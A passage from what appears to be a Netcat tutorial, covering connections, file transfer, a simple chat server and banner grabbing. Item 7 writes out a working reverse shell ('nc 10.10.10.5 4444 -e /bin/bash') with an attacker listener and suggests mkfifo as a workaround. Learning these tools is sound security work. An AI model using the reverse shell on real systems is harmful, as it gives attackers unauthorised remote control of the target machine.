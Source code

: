     ```bash
    nc <target_ip> <port_number>
    ```

    For example: `nc 192.168.122.48 1234`
    This command connects to port 1234 on the host with the IP address 192.168.122.48.
4.  **File Transfer:** Netcat can be used to transfer files between two machines.

    *   **Receiver (listening):**
        ```bash
        nc -l -p <port_number> > <filename>
        ```
        For example: `nc -l -p 1234 > received_file.txt`
    *   **Sender:**
        ```bash
        nc <receiver_ip> <port_number> < <filename>
        ```
        For example: `nc 192.168.122.48 1234 < file_to_send.txt`
5.  **Creating a Simple Chat Server:** Netcat can be used to create a basic chat server.

    *   **Server (System 1):**
        ```bash
        nc -l -p <port_number>
        ```
        For example: `nc -l -p 5555`
    *   **Client (System 2):**
        ```bash
        nc <server_ip> <port_number>
        ```
        For example: `nc 192.168.122.48 5555`
    *   Now, anything typed on either machine will be displayed on the other.
6.  **Banner Grabbing:** Netcat can be used to grab the banner of a service running on a specific port.  Connect to the target and port, and it may display identifying information.

    ```bash
    nc -v <target_ip> <port_number>
    ```

    For example: `nc -v 192.168.122.48 80`
7.  **Reverse Shell:** Netcat can be used to create a reverse shell, allowing you to gain access to a target machine.

    *   **Listener (Attacker):**
        ```bash
        nc -l -p <port_number>
        ```
        For example: `nc -l -p 4444`
    *   **Target (to execute):**
        ```bash
        nc <attacker_ip> <port_number> -e /bin/bash
        ```
        For example: `nc 10.10.10.5 4444 -e /bin/bash` (This command executes `/bin/bash` and sends the input/output to the attacker's machine.)
        **Note:** The `-e` option is not available in all Netcat versions for security reasons. You might need to use `mkfifo` and other commands to achieve the same result.
